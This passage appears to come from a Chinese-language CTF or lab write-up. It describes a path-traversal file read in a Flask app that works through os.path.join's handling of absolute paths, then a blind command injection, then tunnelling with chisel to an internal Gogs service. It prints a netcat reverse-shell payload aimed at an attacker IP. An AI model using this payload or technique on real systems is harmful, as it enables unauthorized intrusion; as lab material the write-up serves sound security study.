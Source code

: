 在app.py中，/download的实现很明显存在任意文件读取，原因是虽然对filename做了过滤".."以防止目录遍历，但由于os.path.join的特性，这个函数如果遇到绝对路径，则会直接返回这个绝对路径，从而忽略掉app.config['LIST_FOLDER']，所以我们可以不需要../也可以实现目录遍历

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/309fe08d-6838-74f0-7650-6555c1387e3f.png)

读nginx配置文件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1554d658-5132-9e7a-9e67-7c1551e4d82b.png)

## Foldhold - RCE

知道路径后，读主站的app.py

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/6a2a610a-e74e-2028-ff6c-6ad46475b8f7.png)

发现那个表单其实是会被处理的，通过import我们可以得知参数被传入了另一个模块里的函数处理

	from form import sendmessage

读form.py

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/edc09965-d3f6-f4f9-2542-a072ff59fe65.png)

很明显，常规command injection，但是是盲的。

尝试通过nc连接攻击机，可行

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/7cebb2f6-9507-ed8e-064c-521df519c0da.png)

常规reverse shell payload

	mkfifo+/tmp/f1%3bnc+10.10.14.18+8888+<+/tmp/f1+|+/bin/bash+>+/tmp/f1

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/6b972257-c25f-377e-a0c5-fa003e1ad2e8.png)

## 内部信息收集

ss -tlnp发现好几个端口

传个chisel过去，攻击机开启server

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/710c1ab9-b9d8-cf72-2939-17075f087eaf.png)

目标机器连接过来，反向socks

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/86678ee5-0a2f-12b9-fd54-6d19c28249cd.png)

火狐插件

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c7168773-c532-44f7-ce21-36d355d9b416.png)

### 3000端口 - Gogs

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e77e2427-a36a-2c71-43b5-87195e8446f2.png)
